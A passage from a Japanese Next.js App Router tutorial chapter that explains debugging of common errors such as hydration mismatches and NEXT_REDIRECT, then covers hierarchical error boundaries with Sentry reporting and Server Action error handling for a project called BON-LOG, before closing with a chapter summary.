It only works in a Client Component but none of its parents
are marked with "use client", so they're Server Components by default.

【原因】
Server Component内でuseState, useEffect等の
React Hooksを使おうとしている

【対処法】
ファイルの先頭に 'use client' を追加する
または、Hooks を使う部分を別のClient Componentに切り出す
```

#### Error: "Hydration failed because the initial UI does not match..."

```
【エラーメッセージ】
Error: Hydration failed because the initial UI does not match
what was rendered on the server.

【原因】
サーバーでレンダリングされたHTMLと
クライアントでハイドレーション時に生成されたHTMLが異なる

**よくある原因**

```mermaid
graph TD
    Causes[ハイドレーションエラーの原因]
    Causes --> Cause1["Date.now や Math.random の使用<br/>→ サーバーとクライアントで異なる値が生成される"]
    Causes --> Cause2["window や localStorage の参照<br/>→ サーバーには window がない"]
    Causes --> Cause3["ブラウザ拡張機能がHTMLを書き換えている"]
    Causes --> Cause4["条件分岐でサーバー/クライアントの結果が異なる"]

    style Causes fill:#ffe6e6
    style Cause1 fill:#fff9e6
    style Cause2 fill:#fff9e6
    style Cause3 fill:#fff9e6
    style Cause4 fill:#fff9e6
```

**対処法**
- useEffect 内でクライアント固有の値を設定する
- suppressHydrationWarning プロパティを使用（一時的な対策）
- typeof window !== 'undefined' でガード
```

```typescript
// ❌ ハイドレーションエラーが発生する
'use client'
export function CurrentTime() {
  // サーバーとクライアントで異なる時刻が返る
  return <p>{new Date().toLocaleString()}</p>
}

// ✅ 対処法: useEffectで設定
'use client'
import { useState, useEffect } from 'react'
export function CurrentTime() {
  const [time, setTime] = useState<string>('')

  useEffect(() => {
    // クライアント側でのみ時刻を設定
    setTime(new Date().toLocaleString())
  }, [])

  return <p>{time || '読み込み中...'}</p>
}
```

#### Error: "NEXT_REDIRECT"

```
【エラーメッセージ】
Error: NEXT_REDIRECT

【原因】
Next.jsの redirect() 関数が内部的にスローするエラー
これは正常な動作であり、実際のエラーではない

【対処法】
├── try-catch で redirect() を囲まない
│   → redirect() はcatchされるとリダイレクトが中断される
├── Sentryの ignoreErrors に追加済み（BON-LOG）
└── このエラーが表示されてもリダイレクト自体は正常に動作
```

```typescript
// ❌ 問題のあるコード
async function handleLogin() {
  try {
    await loginUser()
    redirect('/feed')  // これは Error をスローする
  } catch (error) {
    // redirect の Error もここでキャッチされてしまう！
    return { error: 'ログインに失敗しました' }
  }
}

// ✅ 正しいコード
async function handleLogin() {
  let success = false
  try {
    await loginUser()
    success = true
  } catch (error) {
    return { error: 'ログインに失敗しました' }
  }

  if (success) {
    redirect('/feed')  // try-catch の外で呼ぶ
  }
}
```

### Chrome DevTools の活用

```
【デバッグで使うChrome DevToolsのタブ】

  Console タブ:
  ├── Client Componentのconsole.logを確認
  ├── JavaScriptエラーを確認
  └── ネットワークエラーを確認

  Network タブ:
  ├── Server ActionのPOSTリクエストを確認
  │   └── next-action ヘッダーで Server Action を特定
  ├── API Routeのリクエスト/レスポンスを確認
  ├── 画像・フォント・JSの読み込みサイズを確認
  └── キャッシュの効き具合を確認（from disk cache等）

  Application タブ:
  ├── Cookieの確認（セッション情報）
  ├── LocalStorageの確認
  └── Service Workerの確認

  Lighthouse タブ:
  ├── パフォーマンススコアの測定
  ├── Core Web Vitalsの確認
  ├── アクセシビリティの確認
  └── SEOの確認

  Performance タブ:
  ├── レンダリングパフォーマンスの測定
  ├── ハイドレーションにかかる時間を確認
  └── どのコンポーネントが重いかを特定
```

### Next.js 開発サーバーのログの読み方

```
【npm run dev の出力例】

  ▲ Next.js 16.x.x
  - Local:        http://localhost:3000
  - Environments: .env.local

  ✓ Starting...
  ✓ Ready in 2.3s

  --- リクエスト処理 ---
   ○ Compiling /feed ...
   ✓ Compiled /feed in 1.2s

  --- ログ出力 ---
  GET /feed 200 in 150ms        ← 200 = 成功、150ms = 応答時間
  POST /api/upload 413 in 50ms  ← 413 = リクエストが大きすぎる

  --- エラー ---
   ⨯ Error: ECONNREFUSED        ← DB接続エラー
   ⨯ TypeError: Cannot read...  ← コードのバグ
```

```
【応答時間の目安】

  | 応答時間 | 評価 | 対策 |
  |---------|------|------|
  | ~100ms | 高速 | 問題なし |
  | 100-500ms | 普通 | キャッシュを検討 |
  | 500ms-1s | やや遅い | クエリ最適化が必要 |
  | 1s以上 | 遅い | 大幅な改善が必要 |

  遅い場合のチェックポイント:
  [1] DBクエリが遅い？ → select で必要なフィールドのみ取得
  [2] N+1問題？ → include を使って1回で取得
  [3] 大量データ？ → ページネーション（take / cursor）を使用
  [4] キャッシュなし？ → unstable_cache を導入
```

### 本番環境でのデバッグ

本番環境ではconsole.logの代わりに、構造化されたログとエラー監視サービスを使います。

```
【本番環境のデバッグ手段】

  1. Sentry（エラー監視）
     ├── エラーの自動キャプチャ
     ├── スタックトレースの確認
     ├── エラーの発生頻度・影響ユーザー数
     └── onRequestError でルートタイプも記録

  2. Vercel ログ
     ├── Runtime Logs（リアルタイムログ）
     ├── Function Invocations（API呼び出し履歴）
     └── Edge Function Logs

  3. ヘルスチェックAPI
     ├── /api/health でDB接続状態を確認
     ├── 外部監視サービスから定期的にアクセス
     └── 異常時にアラート通知

  4. Vercel Analytics
     ├── Core Web Vitals の実測値
     ├── ページごとのパフォーマンス
     └── 地域別の応答時間
```

BON-LOGではSentryを使用しており、instrumentation.tsで初期化しています（5.15節参照）。本番環境のエラーは自動的にSentryに報告され、開発チームに通知が届きます。

### 理解度チェック

<details>
<summary>Q1: Server Componentの console.log はどこに出力されますか？</summary>

**A:** サーバー側のターミナル（`npm run dev`を実行しているコンソール）に出力されます。ブラウザのデベロッパーツール（Console タブ）には表示されません。Server Componentはサーバーで実行されるため、その出力もサーバー側に表示されます。一方、Client Componentの`console.log`はブラウザのConsoleタブに表示されます。
</details>

<details>
<summary>Q2: ハイドレーションエラーが発生する主な原因は何ですか？</summary>

**A:** サーバーでレンダリングされたHTMLとクライアントで生成されたHTMLが一致しない場合に発生します。主な原因は、(1) `Date.now()`や`Math.random()`のようにサーバーとクライアントで異なる値を生成する式の使用、(2) `window`や`localStorage`などブラウザ固有のAPIをレンダリング中に参照すること、(3) ブラウザ拡張機能がHTMLを書き換えることです。対処法として、クライアント固有の値は`useEffect`内で設定するようにします。
</details>

---

## 5.21 エラーハンドリング戦略 — 階層的エラーバウンダリ

BON-LOGでは、Next.js App Routerのエラーハンドリング機構を階層的に活用し、どのレベルでエラーが発生しても適切なUIを表示します。

### 5.21.1 エラーバウンダリの階層

```
global-error.tsx          ← ルートレイアウト自体のエラー（最終防衛線）
  ↓
app/(main)/error.tsx      ← Route Group レベル（メインエリア全体）
  ↓
app/(main)/feed/error.tsx ← ページレベル（個別ページ）
  ↓
<Suspense> + fallback     ← コンポーネントレベル（部分的なエラー）
```

各レベルが上位のエラーを「キャッチ」する仕組みで、ページの一部だけ壊れても他の部分は正常に表示されます。

### 5.21.2 PageError 共通コンポーネント

BON-LOGでは、各 `error.tsx` で共通の `PageError` コンポーネントを使用しています：

```typescript
// components/common/PageError.tsx
'use client'  // error.tsx は必ず Client Component

import { useEffect } from 'react'
import * as Sentry from '@sentry/nextjs'

export function PageError({
  error,
  reset,
  title = 'エラーが発生しました',
  description,
  linkHref = '/feed',
  linkLabel = 'タイムラインに戻る',
}: {
  error: Error & { digest?: string }
  reset: () => void
  title?: string
  description?: string
  linkHref?: string
  linkLabel?: string
}) {
  // Sentry にエラーを自動送信
  useEffect(() => {
    Sentry.captureException(error)
  }, [error])

  return (
    <div className="text-center py-12">
      <h2 className="text-xl font-bold mb-4">{title}</h2>
      <p className="text-muted-foreground mb-6">
        {description || error.message}
      </p>
      {/* reset() でエラーバウンダリをリセット（再試行） */}
      <button onClick={() => reset()}>再試行</button>
      <Link href={linkHref}>{linkLabel}</Link>
    </div>
  )
}
```

### 5.21.3 各レベルの error.tsx

```typescript
// app/(main)/feed/error.tsx — ページレベル
'use client'
import { PageError } from '@/components/common/PageError'

export default function FeedError({ error, reset }: { error: Error; reset: () => void }) {
  return (
    <PageError
      error={error}
      reset={reset}
      title="タイムラインの読み込みに失敗しました"
      linkHref="/feed"
      linkLabel="タイムラインを再読み込み"
    />
  )
}
```

```typescript
// app/global-error.tsx — 最終防衛線（ルートレイアウトのエラー）
'use client'

export default function GlobalError({ error, reset }: { error: Error; reset: () => void }) {
  return (
    <html>
      <body>
        <h2>予期しないエラーが発生しました</h2>
        <button onClick={() => reset()}>再試行</button>
      </body>
    </html>
  )
}
```

### 5.21.4 not-found.tsx — 404エラー

`notFound()` 関数と連携して、存在しないリソースへのアクセスを処理します：

```typescript
// app/(main)/posts/[id]/page.tsx
import { notFound } from 'next/navigation'

export default async function PostPage({ params }: { params: Promise<{ id: string }> }) {
  const { id } = await params
  const post = await getPost(id)
  if (!post) notFound()  // → not-found.tsx を表示
  return <PostDetail post={post} />
}

// app/(main)/posts/[id]/not-found.tsx
export default function PostNotFound() {
  return (
    <div className="text-center py-12">
      <h2>投稿が見つかりません</h2>
      <p>削除されたか、URLが間違っている可能性があります。</p>
    </div>
  )
}
```

### 5.21.5 クライアントコンポーネントのエラー回復

タイムラインの無限スクロールでは、ページネーションエラー時に再試行UIを表示します：

```typescript
// components/feed/Timeline.tsx
const hasPaginationError = isError && !isFetchingNextPage && (data?.pages?.length ?? 0) > 0

// 初回エラー → error.tsx にフォールバック
// ページネーションエラー → インラインで再試行ボタンを表示
{hasPaginationError && (
  <div className="text-center py-4">
    <p className="text-destructive">追加の読み込みに失敗しました</p>
    <button onClick={() => fetchNextPage()}>再試行</button>
  </div>
)}
```

### 5.21.6 Server Actions のエラーハンドリング

Server Actions では `ActionResult` 型で統一的にエラーを返却します（例外は投げない）：

```typescript
// 統一的なエラー返却パターン
type ActionResult<T = void> =
  | { success: true; data?: T }
  | { success: false; error: string }

// Server Action 内
export async function createPost(formData: FormData): Promise<ActionResult<{ postId: string }>> {
  const session = await auth()
  if (!session) return actionError('認証が必要です')     // 例外ではなくエラー返却

  const parsed = schema.safeParse(data)
  if (!parsed.success) return actionError('入力が不正です')

  try {
    const post = await prisma.post.create({ ... })
    return actionSuccess({ postId: post.id })
  } catch (error) {
    logger.error('Post create failed', error)
    Sentry.captureException(error)
    return actionError('投稿の作成に失敗しました')       // ユーザー向けメッセージ
  }
}
```

**設計原則**:
- **Server Actions**: 例外を投げずに `ActionResult` で返す → クライアントでハンドリングしやすい
- **error.tsx**: 予期しないエラー（DB接続断、ネットワークエラー等）のキャッチネット
- **Sentry連携**: 全エラーを自動送信し、本番環境の問題を素早く検知
- **段階的フォールバック**: コンポーネント → ページ → Route Group → ルートの順で処理

---

## まとめ

この章では、Next.js App Routerの基本から応用までを学びました。

**重要ポイント**
1. **Server Components優先**: デフォルトはServer Component、インタラクティブな部分のみClient Component
2. **データフェッチはServer Componentで**: 直接async/awaitを使用
3. **Server Actions**: フォーム処理やデータ変更に使用
4. **Route Groups**: レイアウトの切り替えとコードの整理（(auth)/(main)/(legal)/(public)+admin/の5パターン）
5. **Middleware**: 認証チェック、CSP nonce生成、Origin検証によるセキュリティ強化
6. **Metadata & SEO**: 静的/動的メタデータ、robots.ts、sitemap.ts、JSON-LD構造化データ
7. **unstable_cache**: リクエスト間キャッシュによるパフォーマンス最適化
8. **Route Handlers**: Webhook、Cronジョブ、ファイルアップロード等の外部連携
9. **instrumentation.ts**: サーバー起動時の初期化処理（Sentry、セキュリティチェック）
10. **パフォーマンス最適化**: キャッシュ階層、バンドルサイズ削減、Core Web Vitals改善
11. **デバッグ手法**: Server/Client Component別のデバッグ、エラーメッセージの読み方

**この章の学習マップ振り返り**

```mermaid
graph TD
    Root[Next.js App Router]
    Root --> Routing[ルーティング]
    Root --> Rendering[レンダリング]
    Root --> Data[データ操作]
    Root --> Security[セキュリティ]
    Root --> SEO[SEO]
    Root --> Optimization[最適化]
    Root --> Infrastructure[インフラ]
    Root --> FAQ[FAQ]
    Root --> Debug[デバッグ]

    Routing --> R1[ファイルベースルーティング 5.2]
    Routing --> R2["Route Groups 5.3<br/>(auth)(main)(legal)(public)+admin"]
    Routing --> R3[Dynamic Routes 5.7]
    Routing --> R4[Route Handlers詳細 5.16]

    Rendering --> Rend1[Server Components 5.4]
    Rendering --> Rend2[Client Components 5.4]

    Data --> D1[データフェッチング 5.5]
    Data --> D2[Server Actions 5.6]
    Data --> D3[unstable_cache詳細 5.13]

    Security --> S1[Middleware基本 5.8]
    Security --> S2[Middleware詳細 - CSP, Basic認証, Origin検証 5.14]

    SEO --> SEO1[Metadata基本 5.9]
    SEO --> SEO2[Metadata & SEO詳細 - robots, sitemap, JSON-LD 5.17]

    Optimization --> O1[next/image, next/link 5.10]
    Optimization --> O2[パフォーマンス最適化実践ガイド 5.19]

    Infrastructure --> I1[instrumentation.ts - Sentry, セキュリティチェック 5.15]

    FAQ --> F1[よくある質問 5.18]

    Debug --> Db1[Next.js開発のデバッグ手法 5.20]

    style Root fill:#e8f4f8
    style Routing fill:#fff9e6
    style Rendering fill:#d4f1d4
    style Data fill:#ffe6f0
    style Security fill:#ffe6e6
    style SEO fill:#f0f8ff
    style Optimization fill:#d4e4ff
```

次の章では、Tailwind CSSとshadcn/uiを使ったスタイリングを学びます。
